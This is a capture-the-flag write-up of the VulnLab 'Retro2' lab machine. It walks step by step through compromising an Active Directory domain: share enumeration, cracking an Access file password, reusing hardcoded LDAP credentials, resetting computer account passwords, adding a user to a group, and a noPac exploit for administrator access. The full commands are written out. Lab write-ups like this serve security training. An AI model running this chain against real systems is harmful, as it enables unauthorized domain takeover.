

# Retro2

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro2** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 139,49173,5722,135,49154,3269,389,9389,636,464,3389,49155,49157,3268,49158 --min-rate=1000 10.10.103.242
```



Now let’s enumerate the shares on the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares
```


> We see we have access to a share named Public
> 

Now let’s try to access the share

```bash
smbclient \\\\retro2.vl\\Public -U "retro2.vl\guest"
```


and we got access to two folders DB and TEMP

let’s go to the DB folder and see it’s content

```bash
cd DB
```


we found an access document so let’s go download it and open it

```bash
get staff.accdb
```


now let’s open the access file


> Since the access file have a password let’s crack it
> 

First get the password hash

```bash
office2john staff.accdb > crackme.txt
```


Now let’s crack the password

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


we got the password for the office file which is class08

let’s go and open it again


> We found a VB script that is making ldap query with hardcoded username and password
username: retro2\ldapreader
password: ppYaVcB5R
> 

Now let’s see if they are working!

```bash
nxc smb retro2.vl -u ldapreader -p ppYaVcB5R
```


Yeah they did now let’s get all the users in the machine

```bash
nxc smb retro2.vl -u 'guest' -p '' --shares --users --rid-brute 10000
```


now save the output and let’s extract the usernames

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```


Now let’s get a bloodhound


now let’s open bloodhound and search for any interesting attack vector 


we didn’t find anything so let’s try to search for pre created computer accounts

```bash
nxc smb retro2.vl -u 'fs01$' -p 'fs01' 
```


Now let’s change it’s password

```bash
impacket-changepasswd retro2.vl/FS01$:fs01@10.10.103.242 -altuser ldapreader -altpas ppYaVcB5R
```


now let’s see what this computer can do


notice that our computer have generic write over another computer so let’s reset the ADMWS01 computer password

```bash
net rpc password ADMWS01$ -U retro2.vl/'FS01$'%'remo123$' -S 10.10.103.242
```


now let’s check if the password is changed!

```bash
nxc smb retro2.vl -u 'ADMWS01$' -p 'remo123$'
```


yes it changed so let’s go back to bloodhound and see what we can do now


> Out computer object can add a member to the service group
> 

Now let’s add the ldapreader to the service group

```bash
bloodyAD --host bln01.retro2.vl -d retro2.vl -u "ADMWS01$" -p "remo123$" add groupMember "SERVICES" "ldapreader"
```


Now since ldapreader is now member of the services group let’s see what this group can do


> Notice that the members of the services group can RDP to the machine
> 

Let’s RDP to the machine

```bash
xfreerdp /u:ldapreader /p:ppYaVcB5R /d:retro2.vl /v:10.10.103.242 /cert-ignore /tls-seclevel:0
```


Now let’s exploit the noPac bug to get admin privilege

```bash
python noPac.py retro2.vl/ldapreader:'ppYaVcB5R' -dc-ip 10.10.103.242 -shell --impersonate administrator -use-ldap
```


and we got admin privilege

so let’s go to the admin desktop and see the flag

```bash
dir c:\users\administrator\desktop
```


Amazing we got the root flag 🥳


That’s it for the **Retro2** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX